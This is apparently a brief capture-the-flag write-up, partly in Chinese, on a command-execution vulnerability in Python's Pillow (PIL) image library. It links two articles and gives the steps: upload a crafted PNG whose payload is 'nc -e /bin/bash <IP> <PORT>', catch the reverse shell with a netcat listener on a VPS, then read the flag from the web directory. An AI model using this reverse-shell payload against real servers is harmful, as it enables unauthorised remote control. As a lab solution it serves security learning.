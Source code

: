 ## **Title**
pillow

## **Tools**
Python PIL Module Command Execution Vulnerability

## **Steps**

具体漏洞细节参照以下文章：

https://paper.seebug.org/405/

https://xianzhi.aliyun.com/forum/read/2163.html

上传带payload的png，payload为 

`nc -e /bin/bash <IP> <PORT>`，

然后在vps上`nc -l -p <PORT>`得到reverse shell。

flag在web目录下，ls可以看到。

![](files/1.png)


